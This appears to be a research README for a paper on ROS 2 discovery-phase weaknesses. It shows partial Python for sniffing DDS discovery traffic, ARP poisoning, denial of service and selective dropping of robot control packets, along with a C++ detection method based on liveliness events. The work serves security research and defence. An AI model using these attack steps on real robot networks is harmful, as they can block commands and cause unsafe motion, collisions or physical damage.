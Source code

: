 # Cross-Layer Attacks from ROS 2 Discovery phase
<p align="center">
  <img alt="ROS2 logo" src="https://img.shields.io/badge/ROS--2-Humble-blue?style=for-the-badge">
  <img alt="Fast DDS logo" src="https://img.shields.io/badge/Fast--DDS-2.6.9-brightgreen?style=for-the-badge">
  <img alt="Scapy" src="https://img.shields.io/badge/Scapy-Packet%20Crafting-orange?style=for-the-badge">
</p>

## 📝 Paper Summary
ROS 2 protects communication data through SROS 2, but the unauthenticated discovery phase remains a security blind spot.
During the discovery phase, metadata such as IP addresses, ports, and participant identifiers are exposed and can be leveraged for ARP-based snooping, spoofing, and cross-layer attacks.

We design and implement cross-layer attack chains that manipulate lower network layers by leveraging these discovery-phase weaknesses, and demonstrate their feasibility through experiments.
In real autonomous robot scenarios, we demonstrate that:

- **DoS attacks**: Even a short DoS lasting ~18 seconds can cause localization failure and induce a *kidnapped-robot* state.  
- **Selective forwarding attacks**: Dropping specific control packets can covertly block robot commands, leading to unsafe actuation, collisions, and potential physical damage.  

To counter these threats, we propose a detection mechanism that leverages QoS events, specifically ROS 2 liveliness events, to raise alerts during abnormal conditions and enable timely countermeasures.
Experiments were conducted on ROS 2 Humble with Fast DDS 2.6.9 over IEEE 802.11ac wireless links.
The attack code is released here to highlight how easily such vulnerabilities can be reproduced in practice, even against real robot systems.

# 💡 How the Cross-Layer Attack Chain Works
## Step 1: Multicast Join & SPDP Reception
The script consists of three logical stages: (1) joining the DDS discovery multicast, (2) capturing discovery packets, and (3) parsing RTPS to extract unicast locators.
### 1. Joining the Multicast Group
> - Create a UDP socket and call IP_ADD_MEMBERSHIP to join the standard ROS 2 discovery multicast group so that SPDP announcements reach the host.
> ```python
> mreq = struct.pack("4s4s", socket.inet_aton(MCAST_GRP), socket.inet_aton(LISTEN_IP))
> sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)
> ```

### 2. Packet Sniffing with Scapy
> - Use the Scapy tool to sniff and capture SPDP traffic with a BPF filter, processing each packet.
> ```python
> sniff(
>     filter=f"udp and host {MCAST_GRP} and port {SPDP_PORT}",
>     prn=packet_handler,
>     store=False
> )
> ```
### 3. Unicast Locator Extraction (RTPS Parsing)
> - Scan RTPS submessages, find DATA (ID 0x15), then parse the SerializedPayload → ParameterList to extract Unicast Locator parameters.
> ```python
> # Find DATA Submessage (ID: 0x15)
> if submessage_id == 0x15:
>     # Loop through ParameterList
>     while param_offset < param_list_end:
>         # Find Unicast Locator PID
>         if pid in [PID_METATRAFFIC_UNICAST_LOCATOR, PID_DEFAULT_UNICAST_LOCATOR]:
>             # Decode Locator data (kind, port, address)
>             ...
>             return f"UDPv4:{ip_addr}:{port}"
> ```


## Step 2: Cross-Layer Attack Execution (MITM / DoS / Selective Forwarding)
> **[❗] Purpose.**
> 
>This section documents a controlled feasibility demonstration conducted in a closed testbed to evaluate detection and resilience of ROS 2/DDS-RTPS systems. The procedures are intended solely for defensive research under proper authorization.
### 1. ARP Poisoning
> - Alters the ARP cache tables of the target nodes, rerouting their traffic through the attacker and thereby establishing an man-in-the-middle (MITM) position between the endpoints.
> ```python
> # Poison the target's ARP table
> arp = ARP(op=2, pdst=victim_ip, psrc=source_ip, hwdst=victim_mac)
> sendp(Ether(dst=victim_mac)/arp, iface=iface, verbose=False)
> ```

### 2. Traffic Hijacking
> **Denial-of-Service (Drop-All topic)**
> - Disables forwarding at the interposed test node so that intercepted traffic is not relayed, effectively severing connectivity between peers.
> ```python
> # Disable IP forwarding on the attacker's machine
> if sysname == "Linux":
>     subprocess.run(["sysctl", "-w", f"net.ipv4.ip_forward=0"], check=True)
> ```

> **Selective Forwarding Attack (Topic-Aware)**
> - Inspects RTPS headers to identify Writer Entity IDs associated with designated application streams and conditionally drops those packets while forwarding others, making the disruption harder to detect.
> ```python
> def nfqueue_callback(packet, state):
>     """NetfilterQueue callback for selective packet dropping"""
>     pkt = IP(packet.get_payload())
>     ...
>             # Check for target Writer Entity ID
>             for submsg in rtps_data.get('submessages', []):
>                 writer_entity_id = submsg.get('writer_entity_id', 'N/A')
>                 if writer_entity_id and state.should_drop_entity_id(writer_entity_id):
>                     print(f"[DROP] Blocking packet with Writer Entity ID: {writer_entity_id}")
>                     packet.drop()  # Drop specific packets
>                     return
>             
>     packet.accept()  # Forward all other packets
> ```

---
## 🔎 The Detection: QoS Triggered Anomaly Detection.
### 📜 Overview
This configuration underpins the node’s diagnostic capability. When a liveliness event is triggered (i.e., the liveliness lease is not renewed within lease_duration), the node launches an automated investigation rather than treating it as a mere disconnection. 

Immediately after the event, the node inspects the ARP table to distinguish causes:

- **No table change** → likely a benign network condition (temporary latency, loss, roaming).

- **Table change** → potential attack (e.g., IP→MAC remap of a publisher/gateway, or a single MAC mapped to multiple IPs).

This two-step process differentiates transient delay from deliberate manipulation.

### 1. QoS Event Callback Configuration
> - Liveliness callback fires when the publisher’s liveliness lease expires (NOT_ALIVE).
> ``` cpp
> auto qos = rclcpp::QoS(rclcpp::KeepAll()).reliable();
> qos.liveliness(RMW_QOS_POLICY_LIVELINESS_AUTOMATIC);
> qos.liveliness_lease_duration(std::chrono::seconds(2)); 
> // Bind the liveliness_callback function to the event
> rclcpp::SubscriptionOptions options;
> options.event_callbacks.liveliness_callback =
> std::bind(&MinimalSubscriber::liveliness_callback, this, _1);
> ```
>
### 2. Event-Driven Diagnostics (ARP Verification)
> **Update ARP Cache**: The node executes the system command arp -n to fetch the current IP-to-MAC address mappings on the network.
>
> **Verify Changes & Detect Conflicts**: It compares the newly fetched ARP table against its previously stored version.
> Critically, it checks if a single MAC address is mapped to multiple IP addresses.
> ``` cpp
> // C++ code snippet for the liveliness callback
> void MinimalSubscriber::liveliness_callback(rclcpp::QOSLivelinessChangedInfo &event)
> {
> // If a publisher is declared "not alive"...
>   if (event.not_alive_count > 0) {
>       // ...update the local ARP cache...
>       update_arp_cache();
>       // ...and verify it for changes and conflicts.
>       verify_arp_changes();
>     }
> }
> ```
✅ Platform note: Implemented and tested on Linux; root privileges may be required to access detailed arp cache table info.

## 📢 Notice
This project is currently compatible with ROS 2 Humble using Fast DDS 2.6.9. 

### Contact & Collaboration
If you have any issues or questions about using this, please feel free to contact us anytime.

**Email**: [ryuhyunho@dgist.ac.kr](mailto:ryuhyunho@dgist.ac.kr)  
